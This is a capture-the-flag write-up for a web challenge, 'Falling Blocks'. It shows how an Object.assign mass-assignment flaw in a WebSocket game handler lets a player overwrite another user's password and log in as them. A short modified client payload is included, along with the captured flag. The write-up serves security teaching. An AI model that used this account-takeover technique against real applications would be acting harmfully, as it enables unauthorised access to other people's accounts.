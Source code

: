 ```yaml
---
title: Falling Blocks
solves: 45
points: 423
created: 2025-04-19T04:32
updated: 2025-04-20T19:59
---
```


We can just cheat directly no?

```js
if (score > 10000) {
    data.score = 0;
}

/////

app.get('/logout', utils.authMiddleware, async (req, res) => {
    if (req.user.username !== await client.HGET(req.user.username, 'username')) {
        return res.json({ "message": "Stop cheating!" });
    }
    const score = await client.HGET(req.user.username, 'score');
    if (score > 10000) {
        return res.json({ "message": process.env.FLAG });
    }
    res.clearCookie("user");
    res.redirect("/login");
});
```

Maybe not, it seems that we can't exactly just get the flag directly by changing our score.

But wait, is that a `Object.assign` I see? With user provided data?

```js
const data = JSON.parse(message);
if (data.type && data.time && data.score) {
    if (data.type === 'gameOver') {
        let score = data.score;

        if (score > 10000) {
            data.score = 0;
        }

        userdata = Object.assign(userdata, data);
        userdata.score = Math.max(userdata.score, await client.HGET(userdata.username, "score"));
        await client.HSET(userdata.username, userdata);
        scoreboard.addScore(userdata.score, userdata.username);
    }
}
```

And we can just edit the `userdata` of any user?

Well that means we can edit their passwords.

```js
if (username !== await client.HGET(username, 'username')) {
    return res.json({ "message": "Stop cheating!" });
}
if (password === await client.HGET(username, 'password')) {
    res.cookie("user", await client.HGET(username, 'tokens'), {
        httpOnly: true
    });
    return res.redirect('/game');
}
```

We can just patch the `game.js` file to send our own data (turn on browser local override).

This is override Ssundae's password to `Ssundae`.

```js [game.js]
ws.send(JSON.stringify({ type: 'gameOver', time: new Date().toLocaleTimeString(), score: score, username: "Ssundae", password: "Ssundae" }));
// alert('Game Over! Score: ' + score);
// document.location.reload();
```

Then we logout and login with `Ssundae` / `Ssundae`, and logout again.

```flag
UMASS{F@lLiNgH@rD_0N_w3bS0cK3ts!437}
```
